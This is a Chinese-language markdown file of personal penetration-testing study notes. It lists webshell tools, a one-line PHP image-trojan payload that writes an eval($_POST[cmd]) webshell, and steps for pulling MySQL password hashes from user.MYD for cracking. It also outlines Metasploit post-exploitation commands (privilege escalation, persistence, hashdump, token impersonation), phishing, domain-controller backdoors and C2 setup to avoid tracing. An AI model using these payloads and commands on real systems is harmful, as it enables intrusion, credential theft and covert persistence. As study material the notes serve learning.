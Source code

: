 # 渗透学习笔记

- 菜刀类的webshell 管理工具使用：如 antsword, bihinder等。
- 常用一句话shell（任意文件上传漏洞）
- MIME content-type:分类类型/具体类型 参考 developer.mozilla.org/zh-CN/docs/Web/HTTP
- PHP `_FILES`
- hash破解网站：https://yq.aliyun.com/articles/608365
- mysql hash

MYSQL数据库的认证密码有两种方式:
- MYSQL 4.1版本之前是MYSQL323加密;
- MYSQL 4.1和之后的版本都是MYSQLSHA1加密.

MYSQL数据库中自带Old_Password（str）和Password（str）函数,它们均可以在MYSQL数据库里进行查询，前者是MYSQL323加密，后者是MYSQLSHA1方式加密。

以MYSQL323方式加密

`SELECT Old_Password('bbs.antian365.com');`
查询结果MYSQL323 = 10c886615b135b38

（2）以MYSQLSHA1方式加密

`SELECT Password('bbs.antian365.com');`

在MYSQL数据库中所有设置默认都保存在“C:\Program Files\MYSQL\MYSQL Server 5.0\data\MYSQL” 或 “/var/lib/mysql”中，也就是安装程序的data目录下，如图2所示，有关用户一共有三个文件即user.frm、user.MYD和user.MYI，MYSQL数据库用户密码都保存在user.MYD文件中，包括root用户和其他用户的密码。MYSQL数据库文件共有“frm”、“MYD”“和MYI”三种文件，“.frm”是描述表结构的文件，“.MYD”是表的数据文件，“.MYI”是表数据文件中任何索引的数据树。

使用UltraEdit-32编辑器直接打开user.MYD文件，打开后使用二进制模式进行查看，如图3所示，可以看到在root用户后面是一串字符串，选中这些字符串将其复制到记事本中，这些字符串即为用户加密值，即506D1427F6F61696B4501445C90624897266DAE3。将MYSQL用户密码字符串加入到Cain破解列表

- 渗透中常用的php函数：phpinfo(); eval();
- php http常用方法变量： $_POST $_REQUEST
- 查找常见的webshell检测列表，例如：使用`grep -R 'eval($_)' /目录`可以进行简单的检测。fgrep
- linux 系统中的敏感文件
- 网站下的敏感文件
- 图片木马 ,制作图片木马 `<?fputs(fopen("shell20.php","w"),'?php eval($_POST[cmd]);?>')?>`
- 收集常用的webshell，一句话
- 如何查看某个文件由谁上传、编辑？
- 如何设置cc主机？防止溯源
- AWVS
- APPSCAN
- MYSQL 中有 information_schema，其它数据类似的？
- 可用的xss
- netsh命令使用

## msf

- meterpreter使用
  - shell，exit
  - getsystem 提权命令
  - 设置跳板机 设置跳板机上的路由 run autoroute -s ip/24
- 增加用户 命令 net user joe 
- db_map -O 某个ip
- RTF_11882_0802 钓鱼邮件 python 工具。
- exploit/windows/misc/hta_server
    - meterpreter下 run persistence
    - run hushdump

- windows/smb/psexec
- meterpreter use list_tokers -U 冒充令牌。

- 攻击邮件服务器，获取邮件
- 给内网主机发送钓鱼恶意文件
- 域控登录，安装后门
- 假冒令牌

msfvenom -p -e -i -f LHOST LPORT

- exploit/multi/handler
- 

## 域控

- sysvol
- 域控admin 密码解密



## 思路杂记

### 访问控制，
- 分析角色与权限。越是复杂的场景和大型机构，权限分配越难。出现privilege escalation
- 仅通过使用户不可见某些数据、某些动作，不能防止目录猜测和遍历。攻击者可能进行猜测和遍历爆破。不仅要在后台对身份和权限进行验证，而且不能明文传送，防止猜测。
- 表达层（页面和js）的访问控制无法阻止中间人攻击。
- 弱密码相关问题：口令长度格式弱、密码恢复机制问题（简单、没有锁定机制很容易爆破或猜测）
### 

中间人：
- 既可以修改请求，也可以修改响应，每次请求都应该在后端有验证，前端是永远不可信的。很多漏洞就是因为后端未做验证而引起的。
### xxs

## 很好的资源
- https://cybersecurity.wtf/